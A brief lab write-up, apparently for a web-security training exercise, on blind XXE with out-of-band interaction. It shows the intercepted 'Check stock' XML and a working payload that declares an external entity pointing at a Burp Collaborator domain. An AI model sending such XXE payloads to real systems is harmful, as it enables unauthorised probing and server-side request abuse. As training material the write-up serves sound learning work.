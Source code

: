 # Blind XXE with out-of-band interaction

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## You can detect the [blind XXE] vulnerability by triggering out-of-band interactions with an external domain.

## To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

---

### step 1

interept check stock feature and send to Reapeter

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

### step2

go burp collaborator copy to clipboard
dk1jaxnj44bf3s73s2kgyu46bxho5et3.oastify.com
add http://
http://dk1jaxnj44bf3s73s2kgyu46bxho5et3.oastify.com

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://k1mqr44qlbsmkzoa991nf1lds4yvmmab.oastify.com"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
